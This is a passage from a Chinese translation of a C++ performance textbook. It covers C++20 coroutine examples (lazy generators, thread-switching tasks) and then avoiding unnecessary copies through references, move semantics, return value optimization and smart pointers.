对与协程相关语法结构的全面描述非常不直观。它是一个框架，而不是一个库。出于这个原因，将使用示例来完成余下的演示。如果真的想知道协程的所有语法要求，必须查找最新的出版物(或阅读标准)进行了解。但是这些例子应该能对协程的功能有足够的展示，也可以阅读相关协程库的文档，并在程序中使用这个协程库。

**8.4.3协程用例**

第一个例子是C++中协程最常见的用法(标准为协程提供了一些显式设计的语法)，将实现一个惰性生成器。生成器是生成数据序列的函数。每次调用生成器，都会得到序列的一个新元素。惰性生成器是按需计算元素的生成器。

下面是一个基于C++20协程的惰性生成器:

\
**coroutines_generator1.C**

``` {style="styleCXX"}
generator<int> coro(){
	for (int i = 0;; ++i) {
		co_yield i;
	}
}
int main() {
	auto h = coro().h_;
	auto& promise = h.promise();
	for (int i = 0; i < 3; ++i) {
		std::cout << "counter: " << promise.value_ <<
		std::endl;
		h();
	}
	h.destroy();
}
```

这是底层的C++代码，可以对其中涉及的每一步进行解释。首先，协程`coro()`看起来像个函数，`co_yield`操作符除外。此操作符挂起协程，并将值`i`返回给调用者。因为协程挂起，而不是终止，所以操作符可以执行多次。和其他函数一样，协程在控件到达右大括号时终止。此时，无法恢复。通过`co_return`(不应该使用常规的`return`)，可以退出协程。

其次，协程的返回类型------生成器------需要定义的一种特殊类型，由于使用有很多要求，会导致了冗长的样板代码(任何协程库都预定义了这样的类型)。生成器包含一个嵌套的数据成员`h_`，而这就是协程句柄。随着这个句柄的创建也会创建活帧。句柄与`promise`对象关联，这与C++11的`std::promise`没有任何关系。事实上，它根本不是标准类型之一，必须根据标准中列出的一组规则来定义它。执行结束时，句柄会销毁，这也会销毁协程的状态。因此，句柄类似于指针。

最后，句柄是一个可调用对象。调用会恢复协程，因为`co_yield`操作符在循环中，所以协程会生成下一个值，并立即再次挂起自己。

通过为协程定义适当的返回类型，所有这些都可以奇妙地结合在一起。就像STL算法一样，整个系统都受到规则的约束，这个过程中涉及到的所有类型都有期望。若这些期望没有得到满足，就无法编译。现在来看看生成器的类型:

``` {style="styleCXX"}
template <typename T> struct generator {
	struct promise_type {
		T value_ = -1;
		generator get_return_object() {
			using handle= std::coroutine_handle<promise_type>;
			return generator{handle::from_promise(*this)};
		}
		std::suspend_never initial_suspend() { return {}; }
		std::suspend_never final_suspend() noexcept { return
			{}; }
		void unhandled_exception() {}
		std::suspend_always yield_value(T value) {
			value_ = value;
			return {};
		}
	};
	std::coroutine_handle<promise_type> h_;
};
```

首先，返回类型不必从模板生成，可以声明一个整数生成器。通常，是对生成序列中的元素类型参数化的模板。其次，命名生成器没有任何特殊之处，可以随意调用该类型(大多数库都提供了类似的模板，并将其称为生成器)。另一方面，嵌套类型`generator::promise_type`必须称其为`promise_type`。否则，程序将无法编译。嵌套类型可以命名成其他类型，并在使用时，使用类型别名:

``` {style="styleCXX"}
template <typename T> struct generator {
	struct promise { … };
	using promise_type = promise;
};
```

`promise_type`类型*必须*是`generator`类的嵌套类型(或者，协程返回的类型)。但是`promise`类不强制是嵌套类。通常是嵌套类，但可以在外部进行声明。

这里需要`promise`类型的成员函数集合，包括签名。注意，有些成员函数是`noexcept`的。这也是需求的一部分，若忽略此规范，程序将无法编译。当然，即使函数不会抛出异常，也没必要将其声明为`noexcept`。

对于不同的生成器，这些必需的函数实现可能更加复杂。这里简要描述他们的工作。

第一个非空函数`get_return_object()`是样板代码的一部分，看起来和前面的那个完全一样，这个函数从句柄构造了一个新的生成器，而句柄又是由`promise`对象构造的，编译器使用它获得协程的结果。

第二个非空函数`yield_value()`，在每次使用操作符`co_yield`时调用，它的参数是`co_yield`值。将值存储在`promise`对象中，是协程将结果传递给调用者的常用方式。

编译器在第一次遇到`co_yield`时调用`initial_suspend()`。`final_suspend()`在协程通过`co_return`生成最后一个结果后调用，之后不能暂停。如果协程结束时没有返回`co_return`，则调用`return_void()`。最后，如果协同程序抛出了一个从其主体中逃逸的异常，则调用`unhandled_exception()`。尽管些情况很罕见，使用者可以定制这些方法来处理其中每一种情况。

现在来看看它们是如何结合在一起，从而提供一个惰性生成器的。首先，创建协程句柄。在示例中，不保留生成器对象，只保留句柄。这不是必需的，可以保留生成器对象，并在其析构函数中销毁句柄。协程一直运行，直到`co_yield`挂起自己，控制权返回给调用者，而`co_yield`的返回值在`promise`中捕获。调用程序获取此值，并通过调用该句柄恢复协程。协程从它挂起开始，一直运行到下一个`co_yield`。

生成器可以永远运行(或者达到平台上的最大整数值)，流程永远不会结束。如果需要一个有限长度的序列，可以执行`co_return`，或在流程结束后退出循环。参考以下代码:

``` {style="styleCXX"}
generator<int> coro(){
	for (int i = 0; i < 10; ++i) {
		co_yield i;
	}
}
```

现在有一个10个元素的序列。尝试恢复协程之前，调用者必须检查句柄成员函数`done()`的结果。

可以从代码中的任何地方恢复协程(当然是在它挂起后)，甚至可以从不同的线程恢复。这种情况下，协程开始在一个线程上执行和挂起，然后在另一个线程上运行它的其余代码。看一个例子:

\
**coroutines_change_threads.C**

``` {style="styleCXX"}
task coro(std::jthread& t) {
	std::cout << "Coroutine started on thread: " <<
		std::this_thread::get_id() << '\n';
	co_await awaitable{t};
    std::cout << "Coroutine resumed on thread: " <<
		std::this_thread::get_id() << '\n';
	std::cout << "Coroutine done on thread: " <<
		std::this_thread::get_id() << '\n';
}
int main() {
	std::cout << "Main thread: " <<
		std::this_thread::get_id() << '\n';
	std::jthread t;
	coro(t);
	std::cout << "Main thread done: " <<
		std::this_thread::get_id() << std::endl;
}
```

先了解一些细节信息:`std::jthread`在C++20中添加，它只是一个可汇入的线程------它会连接到对象的析构函数中(几乎所有使用线程的人都为此编写了一个类，但现在有了一个标准的类)。现在可以来看看协程。

了解一下协程的返回类型:

``` {style="styleCXX"}
struct task{
	struct promise_type {
		task get_return_object() { return {}; }
		std::suspend_never initial_suspend() { return {}; }
		std::suspend_never final_suspend() noexcept { return
			{}; }
		void return_void() {}
		void unhandled_exception() {}
	};
};
```

这可能是协程的最小返回类型。包含所有必需的样板，而不包含其他内容。具体来说，返回类型是一个嵌套类型`promise_type`类。该嵌套类型必须定义几个成员函数，如下面的代码所示。前面示例中的生成器类型包含这些内容，以及用于将结果返回给调用者的数据。当然，任务也可以根据需要具有内部状态。

与前面的例子相比，第二个变化是任务挂起的方式。使用`co_await`，而不是`co_yield`。操作符`co_await`实际上是挂起协程的更通用的方法，就像`co_yield`一样挂起函数，并将控制权返回给调用者。区别在于参数类型:`co_yield`返回一个结果，而`co_await`的参数是一个`waiter`对象。同样，对该对象的类型也有特定的要求。如果满足了这个要求，类就可称为`awaitable`，这种类型的对象是一个有效的awaiter(如果不是，则无法编译)。以下是我们的`awaitable`:

``` {style="styleCXX"}
struct awaitable {
	std::jthread& t;
	bool await_ready() { return false; }
	void await_suspend(std::coroutine_handle<> h) {
		std::jthread& out = t;
		out = std::jthread([h] { h.resume(); });
	}
	void await_resume() {}
	~awaitable() {}
	awaitable(std::jthread& t) : t(t) {}
};
```

`awaitable`所需的接口是这里的三个函数，第一个是`await_ready()`在协程挂起后调用。如果返回true，那么协程的结果就准备好了，并且没有必要挂起协程。实际中，这个函数总是返回false，这将导致协程的暂停。协程的状态，例如局部变量和暂停点，都存储在活帧中，控制权返回给调用者或恢复者。第二个函数是`await_resume()`，在协程恢复后继续执行之前调用。如果它返回结果，那就是整个`co_await`操作符的结果(我们的例子中是没有结果的)。最有趣的函数是`await_suspend()`，当前协程挂起时，使用当前协程的句柄进行调用，并且可以有几种不同的返回类型和值。如果返回void(正如在我们的示例中所做的那样)，协程将挂起，控制权将返回给调用者或恢复者。不要被示例中的`await_suspend()`所迷惑，它不会恢复协程。它会创建一个将执行可调用对象的新线程，并且正是这个对象恢复了协程。协程可以在`await_suspend()`完成，或仍在运行时恢复。这个例子演示了异步操作时协程的用法。

把所有这些放在一起，得到这个流程:

1.  主线程调用协程。

2.  操作符`co_await`挂起协程。这个过程涉及到对`awaitable`对象成员函数的调用，其中一个调用会创建一个新线程，其会恢复协程(带有移动分配线程对象的游戏已经结束，所以删除了主程序中的新线程，这样可以避免了一些糟糕的竞争条件)。

3.  控制权返回给协程的调用方，因此主线程在协程调用之后继续从该行运行。如果线程在协程完成之前到达，将在线程对象`t`的析构函数中阻塞。

4.  新线程会恢复协程，并从`co_await`之后的行继续在该线程上执行。由`co_await`构造的`awaitable`对象会销毁。协程运行到最后，全部在第二个线程上运行。到达协程的末尾意味着完成了，就可以汇入运行协程的线程了。若主线程正在等待线程`t`的析构函数完成，现在则会解除阻塞，并汇入线程(如果主线程还没有到达析构函数，那么当到达析构函数时就不会阻塞)。

该流程可以通过程序的输出进行确认:

commandshell= Main thread: 140003570591552 Coroutine started on thread:
140003570591552 Main thread done: 140003570591552 Coroutine resumed on
thread: 140003570587392 Coroutine done on thread: 140003570587392

协程`coro()`首先在一个线程上运行，然后在执行过程中跳转到另一个线程。如果有任何局部变量，会在转换过程中进行保留。

我们提到`co_await`是暂停协程的通用操作符。实际上，`co_yield x`操作符等价于`co_await`的特殊用法:

``` {style="styleCXX"}
co_await promise.yield_value(x);
```

这里的`promise`是与当前协程句柄关联的`promise_type`对象。使用操作符`co_yield`的原因是，从协程内部访问自己的`promise`会出现相当复杂的语法使用，因此标准为此添加了一个快捷方式。

这些例子演示了C++协程的功能。协程最有用的功能是窃取工作(已经看到将协程的执行转移到另一个线程是多么容易)、惰性生成器和异步操作(I/O和事件处理)。尽管如此，协程在C++中的时间还不够长，还没有形成使用模式，所以社区还没有提出使用协程的最佳实践。同样，现在谈论协程的性能还为时过早，必须等待编译器支持成熟的和更大规模的应用程序开发。

总的来说，在多年忽视并发性之后，C++标准正在迅速赶上，让我们总结一下语言最近的进展。

###  8.5.总结 {#总结-7 .unnumbered}

C++11是第一个添加线程存在的标准，为并发环境中记录C++程序的行为奠定了基础，并在标准库中提供了一些有用的功能。除了这些功能之外，基本的同步原语和线程也是有用的。后续版本对这些特性进行了改进。

C++17以并行STL的形式带来了重大的进步。当然，性能由实现决定。只要数据足够多，观察到的性能就会更好，即使是在搜索和分区等难以并行化的算法上。然而，如果数据序列太短，并行算法的性能并不是很好。

C++20增加了协程支持，我们已经从理论上和一些基本的示例中了解了无栈协程的工作方式。然而，现在谈论使用C++20协程的性能和最佳实践还为时过早。

本章结束了本书对并发的探索。接下来，我们继续学习C++语言本身的使用如何影响程序的性能。

###  8.6.练习题 {#练习题-7 .unnumbered}

1.  为什么C++11中建立的并发编程基础很重要？

2.  如何使用并行STL算法？

3.  协程是什么？

# 第三部分：设计和编写高性能程序 {#第三部分设计和编写高性能程序 .unnumbered}

将把到目前为止学到的知识，应用到编写C++程序的实践中。我们将了解哪些语言特性有助于实现更好的性能，哪些特性可能导致意想不到的低效率，以及如何帮助编译器生成更好的目标代码。最后，了解从性能角度设计程序的艺术。

本节包括以下几章:

-   第9章，高性能C++

-   第10章，C++中的编译器优化

-   第11章，未定义的行为和性能

-   第12章，为性能而设计

##  第9章高性能C++ {#第9章高性能c .unnumbered}

本章中，我们将重点从硬件资源的最佳使用，转移到语言的最佳应用。虽然，目前为止我们学到的所有东西都可以直接应用到任何语言中，但本章将讨论C++的特性和特性。您将了解C++语言的哪些特性可能会导致性能问题，以及如何避免这些问题。

本章将讨论以下内容:

-   C++语言的效率和开销

-   注意C++语言时可能出现的低效率

-   避免低效的C++代码

-   优化内存访问和条件操作

###  9.1.相关准备 {#相关准备-7 .unnumbered}

需要一个C++编译器和一个微基准测试工具，比如谷歌基准测试库(<https://github.com/google/benchmark>)。

本章的源码地址：
<https://github.com/PacktPublishing/The-Art-of-Writing-Efficient-Programs/tree/master/Chapter09>。

还需要一种方法来检查编译器生成的汇编代码。许多开发环境都有汇编代码的选项，GCC和Clang可以写出汇编代码，而不是目标代码。调试器和其他工具，可以从目标代码生成汇编代码(对其进行反汇编)，而使用哪种工具随个人喜好即可。

###  9.2.编程语言的效率 {#编程语言的效率 .unnumbered}

开发者经常谈论一种语言是否有效。特别是C++，它的开发有着明确的效率目标。与此同时，它在某些圈子里认为C++是低效的。这是怎么回事呢？

效率在不同的情况下或对不同的人有不同的含义。例如:

-   C++的设计遵循**零开销**原则:除了少数的例外，不会为任何不使用的特性支付运行成本。从这个意义上说，C++可以认为是高效的语言。

-   必须为所使用的语言特性付出一些代价，若将它们转化为一些运行时的话。C++的优点是不需要任何运行时代码，来完成可以在编译期间完成的工作(尽管编译器的实现和标准库的效率各不相同)。高效的语言不会为执行请求的代码增加任何开销，C++在这里做的还是相当不错的，我们将在下面讨论一个主要的限制。

-   如果上述情况属实，那么C++是如何被持这种观点的人贴上"效率低下"的标签的呢？现在来看另一个视角定义的效率:用这种语言编写高效的代码有多容易？或者，做一件看起来很自然，但实际上是一种非常低效的解决问题的方法有多容易？与之前提到的问题密切相关，C++能够非常高效地完成开发者要求它做的事情。但是，要在语言中准确地表达想要的东西并不容易，而且编写代码的方式有时会强制约束和要求开发者，这些约束和要求有些有运行时成本。

从语言设计者的角度来看，最后一个问题不是语言的低效:要求机器做X和Y，就需要时间来做X和Y，没有做超出要求的事情。但从开发者的角度来看，如果开发者只想做X而不关心Y，那么这就是一种效率低下的语言。

本章的目标是帮助读者编写代码，并清楚地表达希望机器做去什么，这样做的目的有两个。若认为代码主要读者是编译器，通过精确地描述想要的事情和了解编译器可以自由修改的内容，可以给编译器生成更高效代码的自由。但是对于代码的读者来说也是一样的，他们只能推断出作者在代码中表达的内容，而不能推断出想要表达的内容。如果代码的某些方面发生了变化，那么优化代码是否安全？这种行为是有意为之，还是错误的实现，并且可以去更改吗？这再次提醒我们，编程更多的是一种与同伴交流的方式，而不仅仅是与机器交流的方式。

我们将从明显低效的简单代码示例开始。但这种情况，也会出现在该语言资深开发者的代码中。

###  9.3.不必要的复制 {#不必要的复制 .unnumbered}

不必要的对象复制可能是C++的低效之处。主要原因是这样做很简单，但很难关注到。看一下以下代码:

``` {style="styleCXX"}
std::vector<int> v = make_v(… some args …);
do_work(v);
```

这个程序中，`v`被复制了多少次？答案取决于`make_v()`和`do_work()`函数的实现以及编译器的优化。这个例子涵盖了要讨论的一些语言细节。

**9.3.1复制和参数传递**

我们将从第二个函数`do_work()`开始。若函数以引用(`const`或非`const`形式)传递实参，则不进行复制。

``` {style="styleCXX"}
void do_work(std::vector<int>& vr) {
	… vr is a reference to v …
}
```

若函数使用按值传递，则必须进行复制:

``` {style="styleCXX"}
void do_work(std::vector<int> vc) {
	… vc is a copy of v …
}
```

如果`vector`对象很大，则复制`vector`对象的操作代价很高。必须复制`vector`对象中的所有数据，这是一个代价很高的函数调用。如果不需要`vector`的副本，那这里的复制就非常的低效。例如，如果只需要计算`vector`中所有元素的和(或其他计算)，则不需要副本。乍一看，调用本身并没有告诉我们是否复制，但它应该是这样的。复制的决定属于函数的实现者，只有在考虑了需求和算法的选择后才能做出。对于前面提到的累加所有元素和的问题，正确的决定显然是通过(`const`)引用传递`vector`对象，如下所示:

``` {style="styleCXX"}
void do_work(const std::vector<int>& v) {
	int sum = 0;
	for (int x: v) sum += x;
	… use sum …
}
```

使用值传递明显是低效的，并可能会认为是一个Bug，但是这种情况发生的频率比还挺高。特别是在模板代码中，作者只考虑了小型、轻量级的数据类型，但代码最终得到了比预期更广泛的使用。

另一方面，如果需要创建实参的副本，作为满足函数要求的一部分，使用参数传递是一种很好的方法:

``` {style="styleCXX"}
void do_work(std::vector<int> vc) {
		… vc is a copy of v …
	}
```

进一步处理数据之前，需要对数据应用一个所谓的固定环。假设多次读取固定位的值，每次访问都调用`std::min()`可能比创建结果的缓存副本的效率要低。也可以显式的制作一个副本，这可能会更有效，但这种优化不应该只是猜测，需要通过一个基准测试才能明确回答。

C++11引入了移动语义来解决部分不必要的复制。本例中，如果函数实参是右值，可以以任何方式使用，包括修改它(调用者在调用完成后无法访问该对象)。利用移动语义的常用方法是使用右值引用版本重载函数:

``` {style="styleCXX"}
void do_work(std::vector<int>&& v) {
	… can alter v data …
}
```

但是，如果对象本身支持移动，简单的值传递版本就有了亮点。参考以下代码:

``` {style="styleCXX"}
void do_work(std::vector<int> v) {
	… use v destructively …
}
std::vector<int> v1(…);
do_work(v1);                 // Local copy is made
do_work(std::vector<int>(…));    // rvalue
```

`do_work()`的第一次调用使用了左值参数，因此在函数内部进行了局部复制(参数通过值传递!)。第二个调用使用右值或未命名的临时函数，由于`vector`有一个移动构造函数，函数的实参移动(而不是复制!)到形参中，移动`vector的`速度非常快。现在，在没有重载的情况下，通过函数实现，可以有效地处理右值和左值参数，现在已经看到了两个极端的例子。第一种情况下，不需要副本，显式的构造一份是低效的。第二种情况下，复制是一种合理的实现。正如即将看到的，并不是每一种情况都属于这些极端情况。

**9.3.2使用复制进行实现**

还有一种中间情况，即选择的实现需要参数的副本，但实现本身并不是最优的。考虑下面的函数，需要按顺序输出:

\
**01_vector_sort.C**

``` {style="styleCXX"}
void print_sorted(std::vector<int> v) {
	std::sort(v.begin(), v.end());
	for (int x: v) std::cout << x << “\n”;
}
```

对于整数`vector`，这可能是最好的方法，对容器本身进行排序并按顺序打印。因为不应该修改原始容器，所以需要一个副本，而且需要利用编译器来创建一个副本也没有什么错。

但是如果`vector`的元素不是整数，而是一些大型对象呢？在这种情况下，复制`vector`就需要占用大量内存，而对其进行排序需要花费大量时间来复制大型对象。这种情况下，更好的实现可能是在不移动原始对象的情况下，创建指针`vector`并对其排序:

\
**01_vector_sort.C**

``` {style="styleCXX"}
template <typename T>
void print_sorted(const std::vector<T>& v) {
	std::vector<const T*> vp; vp.reserve(v.size());
	for (const T& x: v) vp.push_back(&x);
	std::sort(vp.begin(), vp.end(),
		[](const T* a, const T* b) { return *a < *b;});
	for (const T* x: vp) std::cout << *x << “\n”;
}
```

因为现在已经学会了*永远不要猜测性能*，所以直觉需要通过基准测试来确认。因为对已经排序的`vector`进行排序不需要任何复制，所以希望在基准测试的每次迭代中都有一个新的、未排序的`vector`，如下所示:

\
**01_vector_sort.C**

``` {style="styleCXX"}
void BM_sort(benchmark::State& state) {
	const size_t N = state.range(0);
	std::vector<int> v0(N); for (int& x: v0) x = rand();
	std::vector<int> v(N);
	for (auto _ : state) {
		v = v0;
		print_sorted(v);
	}
	state.SetItemsProcessed(state.iterations()*N);
}
```

当然，应该禁用打印，因为对I/O基准测试不感兴趣。另一方面，应该在不进行排序的情况下对复制`vector`进行基准测试，这样就可以知道所测量的时间的哪一部分花在了准备测试上。

基准测试确认，对于整数，复制整个`vector`对象并对其进行排序会更快:

\
图9.1 - 对整数`vector`排序的基准测试：复制方式和指针方式(间接)的对比

请注意，如果数组很小，而且所有数据都适合底层缓存，那么无论哪种方式，处理速度都非常快，而且速度差异很小。如果对象比较大，复制的代价也比较高，那么间接性方式就会比较高效:

\
图9.2 - 大型对象的`vector`排序基准测试：复制方式和指针(间接)方式

还有一种特殊情况，即实现时需要复制对象。

**9.3.3复制存储数据**

C++中会遇到另一种数据复制的特殊情况。这种情况最常发生在类构造函数中，在类构造函数中，对象必须存储数据的副本，因此必须创建一个生命周期超过构造函数调用生命周期的副本。看一下这个例子:

``` {style="styleCXX"}
class C {
	std::vector<int> v_;
	C(std::vector<int> ??? v) { … v_ is a copy of v … }
};
```

这里的目的是复制一份，低效率的做法是复制多个中间副本或一个不必要的副本。实现的标准方法是通过`const`引用获取对象，并在类内部复制:

``` {style="styleCXX"}
class C {
	std::vector<int> v_;
	C(const std::vector<int>& v) : v_(v) { … }
};
```

如果构造函数的实参是左值，这是最高效的。但是，如果实参是右值(临时值)，可以将它移到类中，从而不进行复制。这需要重载构造函数:

``` {style="styleCXX"}
class C {
	std::vector<int> v_;
	C(std::vector<int>&& v) : v_(std::move(v)) { … }
};
```

缺点是需要编写两个构造函数，但如果构造函数有几个参数，并且每个参数都需要复制或移动，情况就麻烦了。按照这种模式，将需要6个构造函数重载来处理3个参数。

另一种方法是按值传递所有参数，并移动参数。看下代码:

``` {style="styleCXX"}
class C {
	std::vector<int> v_;
	C(std::vector<int> v) : v_(std::move(v))
	{ … do not use v here!!! … }
};
```

形参`v`现在是一个处于已移动状态的对象，不应该在构造函数体中再使用。如果实参是左值，则创建一个副本来构造形参`v`，然后移动到类中。如果实参是右值，则将其移动到形参`v`中，然后再次移动到类中。如果移动成本较低，这种模式就很高效。然而，如果对象的移动代价很高，或者根本没有移动构造函数(只能复制)，最终则会进行两次复制，而不是一次。

我们关注的是将数据放入函数和对象的问题。但是当需要返回结果时，复制也可能发生。这里的考虑因素完全不同，需要分别研究。

**9.3.4复制返回值**

本节开头的示例包含了这两种类型的复制。特别是这一行:

``` {style="styleCXX"}
std::vector<int> v = make_v(… some args …);
```

生成的`v`是由`make_v`函数返回的:

\
**02_rvo.C**

``` {style="styleCXX"}
std::vector<int> make_v(… some args …) {
	std::vector<int> vtmp;
	… add data to vtmp …
	return vtmp;
}
```

理论上，这里可以进行不止一次的复制:局部变量`vtmp`复制到`make_v`函数的(未命名)返回值中，又复制到最终结果`v`中。首先，`make_v`的临时返回值会移动，而不是复制到`v`中。但即使是这样，也可能不会发生。如果用自己的类，而不是`std::vector`来尝试这段代码，会看到这里既没有使用复制构造函数，也没有使用移动构造函数:

\
**02_rvo.C**

``` {style="styleCXX"}
class C {
	int i_ = 0;
	public:
	explicit C(int i) : i_(i) {
		std::cout << “C() @” << this << std::endl;
	}
	C(const C& c) : i_(c.i_) {
		std::cout << “C(const C&) @” << this << std::endl;
	}
	C(C&& c) : i_(c.i_) {
		std::cout << “C(C&&) @” << this << std::endl;
	}
	~C() { cout << “~C() @” << this << endl; }
	friend std::ostream& operator<<( std::ostream& out,
	const C& c) {
		out << c.i_; return out;
	}
};  
C makeC(int i) { C ctmp(i); return ctmp; }
int main() {
	C c = makeC(42);
	cout << c << endl;
}
```

这个程序输出如下内容(对于大多数编译器，必须开启某种级别的优化):

{width="40%"}\
图9.3 - 程序按值返回一个对象的输出

只构造和销毁了一个对象，这是编译器优化的结果。这里使用的优化为**返回值优化(RVO)**，编译器认识到所涉及的三个对象------局部变量`ctmp`、未命名的临时返回值和最终结果`c`------都是相同的类型。此外，编写的代码都不可能同时观察到这两个变量。因此，在不改变可观察行为的情况下，编译器可以为这三个变量使用相同的内存位置。调用函数之前，编译器需要分配用于构造最终结果`c`的内存。这个内存地址由编译器传递到函数中，用于在相同的位置构造局部变量`ctmp`。因此，当函数`makeC`结束时，根本不需要返回任何东西，结果已经在它应该在的地方了。这就是RVO。

虽然RVO看起来很简单，但它有几个微妙之处。

首先，这是一种优化。这意味着编译器通常不必这样做(如果编译器不这样做，可能需要一个更好的编译器)，这是一种非常特殊的优化。通常，编译器可以对程序做任何事情，只要不改变可观察对象的行为。可观察行为包括输入、输出和访问易失性存储器。然而，这种优化导致了一个可观察的变化，复制构造函数和匹配的析构函数的预期输出不见了。实际上，这是一个例外:编译器允许消除复制或移动构造函数和相应的析构函数的调用，即使这些函数有包含可观察行为的副作用，并且这个例外不局限于RVO。通常，不能仅仅因为编写了一些似乎在进行复制的代码，就指望调用复制和移动构造函数。这就是所谓的**忽略复制**(或对于移动构造函数来说，就是**忽略移动**)。

其次，(再次)这是一种优化。代码必须先编译，然后才能进行优化。如果对象没有任何复制或移动构造函数，这段代码将无法编译，所以将永远不会进入优化步骤，该步骤将删除所有对这些构造函数的调用。若在我们的例子中删除了所有的复制和移动构造函数，就很容易得到失败的结果:

``` {style="styleCXX"}
class C {
	…
	C(const C& c) = delete;
	C(C&& c) = delete;
}; 
```

编译现在会失败，确切的错误信息取决于编译器和C++标准级别。在C++17中，看起来是这样的:

\
图9.4 - 使用Clang(支持C++17或C++20)编译的输出

特殊情况是，即使删除了复制和移动操作，程序仍然可以编译。稍微修改一下`makeC`函数:

``` {style="styleCXX"}
C makeC(int i) { return C(i); }
```

C++11和C++14没有什么变化。然而，在C++17及以上版本中，这段代码可以很好地编译。注意，与前一个版本的差别:返回的对象过去是左值，它有一个名称。现在它是一个右值，一个未命名的临时值。虽然**命名RVO(NRVO)**仍然是一种优化，但未命名RVO是强制性的，因为C++17不再认为其是一个忽略复制。该标准规定，一开始就不要求复制或移动。

最后，可能想知道是否必须使用内联函数，以便编译器在编译函数本身时知道返回值在哪里。可以进行一个简单的测试，可以确信事实并非如此:即使函数`makeC`位于单独的编译单元中，RVO仍然会发生。因此，编译器必须将结果的地址发送到函数的调用点。如果不返回函数的结果，而是将结果的引用作为附加参数传递，开发者也可以做类似的事情。当然，必须首先构造该对象，而编译器生成的优化不需要额外的构造函数调用。

可能会看到不依赖RVO的建议，但会强制执行返回值的移动:

``` {style="styleCXX"}
C makeC(int i) { C c(i); return std::move(c); }
```

如果RVO没有发生，程序将承担复制操作的性能损失，而移动操作显然是更好的选择。然而，这种观点是错误的。要理解原因，请仔细查看图9.4中的错误消息:编译器报错说移动构造函数删除了，尽管`ctmp`是左值，并应该复制。这不是编译器的错误，但反映了标准所要求的行为。在返回值时进行优化是可能的，但编译器决定是否这么做取决于上下文，编译器必须首先找到一个移动构造函数来返回结果。如果没有找到移动构造函数，则执行第二次查找。这一次，编译器会寻找复制构造函数。在这两种情况下，编译器实际上是在执行重载解析，因为对象可以有许多复制或移动构造函数。因此，没有理由写一个显式的移动，编译器将自己生成一个。但这有什么不好的呢？其危害在于，使用显式移动将禁用RVO。需要一个移动，那么就获得一个。虽然移动可能只需要很少的工作，但RVO根本没有工作量，而且不工作总是比有工作快。

如果删除了移动构造函数，而没有删除复制构造函数，会发生什么？如果两个构造函数都删除了，编译仍然会失败。声明一个已删除的成员函数，与不声明任何成员函数是不同的。如果编译器对移动构造函数执行重载解析，将找到一个移动构造函数(即使这个构造函数被删除了)。编译失败的原因是，因为重载解析选择一个已删除的函数作为最佳(或唯一)重载。如果想强制使用复制构造函数(当然是以科研的名义)，就不必声明任何移动构造函数。

现在，已经看到了隐藏在代码中的复制对象，从而会有拉低程序性能的危险。能做些什么来避免无意的复制吗？我们稍后会给出一些建议，但先让我们回到已经使用过的一种方法:指针。

**9.3.5使用指针避免复制**

传递对象时避免复制对象的一种方法是传递指针。如果不需要管理对象的生命周期，那这是最简单的方式。如果函数需要访问一个对象，但不需要删除它，那么通过引用或原始指针传递对象是最好的方式(在上下文中，引用实际上只是一个不能为空的指针)。

类似地，可以使用指针从函数返回一个对象，但这需要注意一些问题。首先，对象必须在堆上分配。绝对不能返回指向局部变量的指针或引用。参考以下代码:

``` {style="styleCXX"}
C& makeC(int i) { C c(i); return c; } // Never do this!
```

其次，调用者负责删除对象，因此函数的每个调用者都必须知道对象是如何构造的(`new`操作符不是构造对象的唯一方法，不过是最常见的方法而已)。这里的最佳解决方案是返回智能指针:

\
**03_factory.C**

``` {style="styleCXX"}
std::unique_ptr<C> makeC(int i) {
	return std::make_unique<C>(i);
}
```

注意，这样的工厂函数应该返回唯一指针，即使调用者可以使用共享指针来管理对象的生命周期:从唯一指针移动到共享指针很容易，成本也很低。

说到共享指针，它们通常用于传递生命期由智能指针管理的对象。除非目的是同时传递对象的所有权，否则这又是一个不必要和低效的复制的例子。复制共享指针开销也不小。若我们有一个由共享指针管理的对象，以及一个需要操作这个对象而不需要占有它的函数，应该怎么办呢？就可以使用原始指针:

``` {style="styleCXX"}
void do_work1(C* c);
void do_work2(const C* c);
std::shared_ptr<C> p { new C(…) };
do_work1(&*p);
do_work2(&*p);
```

函数`do_work1()`和`do_work2()`的声明告诉我们开发者的意图，这两个函数都操作对象而不删除它。第一个函数修改对象，第二个则不然。这两个函数都希望在没有对象的情况下调用，并将处理这种特殊情况(否则，参数将通过引用传递)。

类似地，只要对象的生命周期是在别处管理，就可以创建原始指针的容器。如果希望容器管理其元素的生命周期，但又不想将对象存储在容器中，可以则使用具有唯一指针的容器来完成这项工作。

现在是时候给出一些通用的指导指南了，这些指导指南将帮助我们避免不必要的复制，以及相应的低效率。

**9.3.6如何避免不必要的复制**

也许为了减少意外的、无意义的复制，可以做的事情是确保所有数据类型都是可移动的，如果实现移动比复制更廉价的话。如果有容器库或其他可重用代码，请确保支持移动。

下一个建议有些笨拙，但可以节省大量调试时间:如果类型复制成本很高，那么就从一开始就让它不可复制，将复制和赋值操作声明为删除。如果类支持快速移动，则提供移动操作。当然，这将防止任何复制，无论是有意义还是无意义。希望有意义复制很少发生，可以实现一个特殊的成员函数，如`clone()`，将创建对象的副本。至少这样，所有的复制在代码中是显式和可见的。如果类既不能复制也不能移动，就不能在STL容器中使用它，而包含唯一指针的容器是一种很好的替代方法。

向函数传递参数时，尽可能使用引用或指针。如果函数需要复制实参，则考虑按值传递，并从实参移动。记住，这只适用于支持移动的类型，请参阅第一条准则。

关于传递函数参数的建议也可以应用于临时局部变量(毕竟，函数形参基本上就是函数作用域中的临时局部变量)。这些应该是可以参考的，除非需要复制。不过，这并不适用于整数或指针等内置类型，复制它们比间接访问要廉价。在模板代码中，无法知道类型是大是小，因此使用引用并依赖于编译器优化，可以避免不必要的(内置类型)间接访问。

当从函数返回值时，第一选择应该是依赖RVO和忽略复制。只有当发现编译器不执行这种优化，或这种优化对特定情况有影响时，才应该考虑其他方法。使用带有输出参数的函数和使用在动态分配的内存中构造结果，并返回智能指针(如`std::unique_ptr`)的工厂函数。

最后，检查算法和实现，注意是否存在不必要的复制。恶意的复制和无意的复制对性能的影响是一样的。

我们已经解决了C++程序中影响效率的第一个问题，即对象的不必要复制。紧随其后的是糟糕的内存管理。

###  9.4.低效的内存管理 {#低效的内存管理 .unnumbered}

关于C++内存管理的主题可以单独成书。关于STL分配器的问题，的论文很多。本章中，将重点讨论几个影响性能的问题。有些有简单的解决方案。其他的，我们将描述问题，并概述可能的解决方法。

